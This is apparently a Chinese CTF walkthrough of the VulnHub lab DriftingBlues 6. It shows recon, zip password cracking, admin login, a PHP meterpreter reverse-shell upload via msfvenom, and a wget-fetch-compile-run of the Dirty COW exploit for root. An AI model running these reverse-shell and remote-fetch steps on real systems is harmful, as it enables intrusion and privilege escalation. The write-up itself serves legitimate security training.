# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate 10000 192.168.64.0/24
```


## 1.2 端口扫描
**SYN扫描**
```shell
nmap -sS -sV -Pn --max-rate 10000 -p- 192.168.64.32 -oA nmap-scan/syn
```


**TCP connection扫描**
```shell
nmap -sT -sV -Pn --max-rate 10000 -p- 192.168.64.32 -oA nmap-scan/tcp
```


**UDP扫描**
```shell
nmap -sU -sV -Pn --max-rate 10000 --top-ports 100 192.168.64.32 -oA nmap-scan/udp
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.32 -sV -sC -Pn -O -p 80,2 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.32 -sV --script vuln -Pn -p 80 -oA nmap-scan/vuln
```


## 1.3 80端口获取信息
**访问`http://192.168.64.32`**


**查看网页源码**
```text
<!-- 
please hack vvmlist.github.io instead
he and their army always hacking us -->
```
`vvmlist.github.io`全称为（Vulnerable Virtual Machine List）是一个专门为网络安全学习者、渗透测试人员和 CTF（夺旗赛）玩家建立的漏洞靶机检索与汇总网站。

**扫描网站目录/文件**
```shell
gobuster dir --url http://192.168.64.32 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,html,git,bak -db
```


**访问`http://192.168.64.32/db`**

这是一张图片db.png，可能有隐写，尝试解读一下，
```shell
exiftool db.png
binwalk db.png
stegseek db.png /usr/share/wordlists/rockyou.txt
```
没发现什么信息。

**访问`http://192.168.64.32/robots`**


**访问`http://192.168.64.32/textpattern/textpattern`**

这是一个登陆的地方，尝试查找一下用户名及其密码。

**访问`http://192.168.64.32/spammer`**
这会下载下来一个zip压缩包, 解压需要密码，
```shell
zip2john spammer.zip > spammer.hash
john --wordlist=/usr/share/wordlists/rockyou.txt spammer.hash
```

暴力破解得到了密码：`myspace4`
解压一下，可以解压出`creds.txt`文件，内容如下：
```text
mayer:lionheart
```
应该就是用户名与密码。目前就只找到一个地方有登陆的位置，请就是上面那个登录框的地方的账号与密码。

---

# 2.建立系统立足点

**登陆网站后台**

一开始会出现这个，一直点"ok".


这里有一个文件上传，


尝试建立php反弹连接，
```shell
# 使用msfvenom生成php反弹连接
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -f raw -o reverse_tcp.php
# 在kali端使用msf监听
msf > use exploit/multi/handler
msf() > set payload php/meterpreter/reverse_tcp
msf() > set lhost 192.168.64.2
msf() > set lport 1025
msf() > run
```
*Textpattern CMS*默认通过*file*上传的文件是在CMS根目录下的`files`文件夹内，因此访问`http://192.168.64.32/textpattern/files/reverse_tcp.php`来触发反弹连接。


---

# 3.系统提权

找个很多信息，都没找到什么有用的信息，最后查看了一下内核版本，应该是要通过内核来提权，
```shell
$ uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```

```shell
searchsploit linux kernel 3.2.0
```


查看内核布丁，
```shell
cat /proc/version
```

应该是有脏牛漏洞的
40611也能用，但是会有破坏掉/etc/passwd的风险，因此我选了40839。

kali开启http服务
```shell
python3 -m http.server 80
```
在靶机上面下载，编译，执行。
```shell
cd /tmp
wget http://192.168.64.2/40839.c
gcc -pthread 40839.c -o 40839 -lcrypt
./dirty  # 输入密码 123
```
中间反弹连接可能会断掉，重新连一下就行。



---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G 512G`
- macOS `14.8.5`
- UTM `4.7.5`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

靶机: 
- website: `https://www.vulnhub.com/entry/driftingblues-6,672/`
- IP: `192.168.64.`
- CPU Arch: `x86_amd_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐